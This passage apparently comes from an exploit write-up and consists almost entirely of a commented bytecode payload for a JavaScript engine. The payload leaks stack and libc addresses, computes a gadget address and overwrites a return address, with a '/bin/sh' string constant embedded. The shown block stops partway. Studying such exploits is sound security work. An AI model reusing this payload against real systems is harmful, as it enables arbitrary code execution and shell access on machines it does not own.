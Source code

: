 
This led me to the following, mostly position independent payload assembly:

```
:stack_size 1

@flt_vb_offset_8 f.7FFFFFFFD738
@flt_bin_sh_str  f.0068732F6E69622F

# Tell the assembler to inject the function
@float_add_raw *

# Copy var_buf to safe location using get_loc and put_loc
get_loc 17
put_loc 37

# Offset var_buf by 8
push_const8 flt_vb_offset_8
put_loc 17

## Read var_buf value to get stack reference
# First mark it as a float by writing 7 right after it
push_7
put_loc 37

# Reset var_buf 
get_loc 36
# OG var_buf value is now in loc36 tag
put_loc 16

# Read float
get_loc 37

# Create a duplicate for later
dup

## Get heap address (__libc_start_call_main)
# First mark it as float
push_7
put_loc 226

# Offset var_buf by 8
push_const8 flt_vb_offset_8
put_loc 17

fclosure8 float_add_raw

# Read float
get_loc 225
swap
get_loc 225

# The JS Stack is now: stack address (x2), heap address, float_add_raw, heap address

# Compute gadget address
push_i32 1705
call2

# Overwrite return address with gadget
put_loc 33

swap

# JS Stack is now: stack address, heap address, stack address

```